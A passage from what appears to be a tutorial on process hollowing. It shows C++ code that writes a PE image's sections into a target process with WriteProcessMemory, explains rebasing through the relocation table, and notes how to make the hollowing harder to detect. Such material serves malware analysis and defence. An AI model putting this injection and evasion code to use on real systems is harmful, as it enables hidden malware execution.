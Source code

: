 ```cpp
 
for (DWORD x = 0; x < pSourceImage->NumberOfSections; x++)
{
      if (!pSourceImage->Sections[x].PointerToRawData)
            continue;
 
      PVOID pSectionDestination =
            (PVOID)((DWORD)pPEB->ImageBaseAddress +
                  pSourceImage->Sections[x].VirtualAddress);
 
      printf
      (
            "Writing %s section to 0x%p\r\n",
            pSourceImage->Sections[x].Name, pSectionDestination
      );
 
      if (!WriteProcessMemory
      (
            pProcessInfo->hProcess,            
            pSectionDestination,               
            &pBuffer[pSourceImage->Sections[x].PointerToRawData],
            pSourceImage->Sections[x].SizeOfRawData,
            0
      ))
      {
            printf ("Error writing process memory\r\n");
            return;
      }
}
```

As was mentioned earlier taking this step a bit further by applying the proper memory protection options to the different sections would make the hollowing harder to detect.

Rebasing The Source Image
If the delta calculated in the prior step is not zero the source image must be rebased. To do this, the bootstrap application makes use of the relocation table stored in the .reloc section. The relevant IMAGE_DATA_DIRECTORY, accessed with the IMAGE_DIRECTORY_ENTRY_BASERELOC constant, contains a pointer to the table. 

IMAGE_DATA_DIRECTORY relocData = pSourceHeaders->
      OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
 
The relocation table itself is broken down into a series of variable length blocks, each containing a series of entries for a 4KB page. At the head of each relocation block is the page address along with the block size, followed by the relocation entries. Each relocation entry is a single word; the low 12 bits are the relocation offset, and the high 4 bits are the relocation types. C bit fields can be used to easily access these values.

```cpp
typedef struct BASE_RELOCATION_BLOCK {
      DWORD PageAddress;
      DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;
 
typedef struct BASE_RELOCATION_ENTRY {
      USHORT Offset : 12;
      USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;
```
 